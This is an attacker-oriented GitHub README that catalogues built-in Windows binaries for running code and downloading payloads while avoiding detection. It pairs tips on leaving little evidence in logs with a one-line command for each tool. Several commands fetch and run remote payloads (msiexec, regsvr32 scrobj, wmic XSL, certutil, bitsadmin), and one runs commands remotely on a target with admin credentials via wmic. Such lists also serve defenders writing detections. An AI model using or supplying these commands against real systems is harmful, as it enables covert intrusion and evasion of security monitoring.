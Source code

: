 # CodeExecutionOnWindows

As an attacker often your aim is to execute code on a target system while simultaneously avoiding detection. 
Luckily Windows provides many built in tools to help you execute code while leaving very little evidence behind. 

A list of ways to execute code, including examples, are shown below. Note that UAC bypasses and DLL hijacking will not be included as these are covered elsewhere.

Also a much more comprehensive list can be found here - https://github.com/api0cradle/LOLBAS

#### General tips:

To remain hidden ideally you want to:

- Avoid creating new processes/network connections
- Avoid creating anomalous parent/child relationships
- Avoid creating/modifying files/registry entries
- Avoid creating memory anomalies
- Avoid leaving evidence in log files

If you are going to drop files, then drop utilities to help run code as opposed to dropping the payload itself.

#### References:

Microsoft command line reference:
https://technet.microsoft.com/en-us/library/cc772390(v=ws.11).aspx

UAC Bypasses:
https://github.com/hfiref0x/UACME


### Code Execution Techniques:

- appsyncvpublishing.exe
  - Description: This utility supports the ability to execute powershell making it an excellent alternative to Powershell.exe.
  - Example: SyncAppvPublishingServer.exe "n;calc"

- control.exe
  - Description: The control panel feature within Windows supports the execution of arbitrary DLLs as demonstrated in the shadowbrokers release. (https://www.dearbytes.com/blog/playing-around-with-nsa-hacking-tools/)
  - Example: control.exe payload.dll

- csc.exe
  - Description: The .NET compiler can be used to compile a c# payload locally that can then be executed.
  - Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:payload.exe payload.cs
  - Example payload.cs: public class x{public static void Main(){System.Diagnostics.Process.Start("calc");}}
  
- cscript.exe/wscript.exe
  - Description: Windows script engines that support both VBS and JScript execution. CScript is the console version, WScript is the Window version. Neither version supports scripts being supplied on the command line, instead a file must be created containing the script or a funky bat file wrapper.
  - Example: cscript.exe test.vbs (where test.vbs contains WScript.Echo "test")

- forfiles.exe
  - Description: Forfiles supports the ability to execute commands and seems to be equivalent to cmd.
  - Example: forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe

- msbuild.exe
  - Description - Microsoft's build utility where you can supply an inline build task to execute code (https://msdn.microsoft.com/en-us/library/dd722601.aspx)
  - Example: C:\Windows\Microsoft.NET\Framework\v2.0.50727\msbuild.exe \\server\payload

- msiexec.exe
  - Description - The Windows installer typically used to install new software or patches. It be used to download and execute a remote payload.
  - Example: msiexec /i http://server/package.msi
  - Example: msiexec /y payload.dll
  - Example: msiexec /z payload.dll

- mshta.exe
  - Description: MSHTA can be used to execute HTA files (containing scripts) or directly execute VBScript/JScript from the command line.
  - Example: mshta bad.hta
  - Example: mshta vbscript:Execute("MsgBox(""amessage"",64,""atitle"")(window.close)")
  - Example: mshta javascript:alert('test');
  - Example HTA: \<html\><head><HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" /></head><script language="VBScript">  
    Set objShell = CreateObject("Wscript.Shell")  
    objShell.Run "calc.exe"  
    Close  
    </script>\</html\>

- powershell.exe
  - Description: The most well known and most useful attacker utility. Powershell can be operated in console mode, with commands provided on the command line or through passing a ps1 file containing commands.
  - Example: powershell -c calc
  - Example: powershell -exec bypass -File test.ps1
  
- regsvr32.exe
  - Description: Command-line tool that registers dll files as command components in the registry. Notable for its use to bypass UAC and useful as it supports remote DLL retrieval with scrobj.dll. No arguments need to be supplied to regsvr32 if the dll exports the function DllRegisterServer. 
  - Example: regsvr32 /s /n /u /i:[URL] scrobj.dll
  - Example: regsvr32 payload.dll

- rundll32.exe
  - Description: Loads and runs DLLs. Three parameters are typically used, the DLL to be executed, the function within the DLL to call and any arguments.
  - Example: rundll32 SHELL32.DLL,ShellExec_RunDLL "calc"
  - Example: rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";alert('test');

- winrm.exe
  - Description: WinRM, or Windows Remote Management provides the ability to remotely execute wmi commands. The winrm service is disabled by default but can be enabled.
  - Example: winrm qc -q & winrm i c wmicimv2/Win32_Process @{CommandLine="calc"}

- wmic.exe
  - Description: Command line tool for WMI.
  - Example: wmic process call create "cmd.exe /c calc"
  - Example: wmic /node:[targetIPaddr] /user:[admin] process call create "cmd.exe /c [command]"
  - Example: wmic os get /format:"https://server/payload.xsl"

### Download Techniques:

- certutil.exe
  - Description: Allows you to download a payload.
  - Example: certutil -ping [URL]
  - Example: certutil -urlcache -split -f [URL] [output-file]
  
- bitsadmin.exe
  - Description: Allows you to download a payload.
  - Example: bitsadmin /transfer [job-name] /download /priority normal [URL-to-payload] [output-path]
  
- powershell.exe
  - Description: Allows you to download a payload.
  - Example: powershell -c "(New-Object System.Net.WebClient).DownloadString('https://google.com')"
  
